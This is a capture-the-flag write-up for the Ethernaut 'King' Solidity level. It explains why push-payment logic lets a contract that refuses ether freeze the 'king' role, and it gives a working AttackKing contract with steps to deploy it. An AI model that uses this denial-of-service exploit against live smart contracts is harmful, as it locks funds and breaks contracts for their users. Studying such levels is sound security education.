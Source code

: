 ```yaml
---
description: breaking contract logic by not allowing to receive ether
---
```


# 9 - King

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

### Goal of this level

* Break the contract

### What you should know before

* How a contract can receive ether\
  1\. **payable** `fallback()` function\
  2\. `receive()` function\
  \-> see [here](https://youtu.be/qtLI7K1L1bg)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

king variable will never be updated if the previous king refuse to receive ether

</details>

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value); // make it revert here
  king = msg.sender;
  prize = msg.value;
}
```

We will send **`King`** contract the amount of value that is greater or equal to `prize` and do not implement any **method to receive ether**.

Then no matter how much the future player sends to **`King`** contract,\
value of `king` variable never be updated because the transaction will always **revert** when trying to send ether to previous king.

Use Remix IDE!

```solidity
contract AttackKing {
    address king;

    constructor(address _instanceAddr) payable {
        king = _instanceAddr;
    }

    function attack() external {
        (bool success, ) = payable(king).call{value: address(this).balance}("");
        require(success);
    }
}
```

```java
> (await contract.prize()).toString();
'1000000000000000'
```

Deploy **`AttackKing`** contract with `'1000000000000000' wei`\
and call `attack()` function.

Done! 😎

## Key Takeway

* There is 2 ways of receiving ether.\
  1\. payable `fallback()`\
  ``2. `receive()`
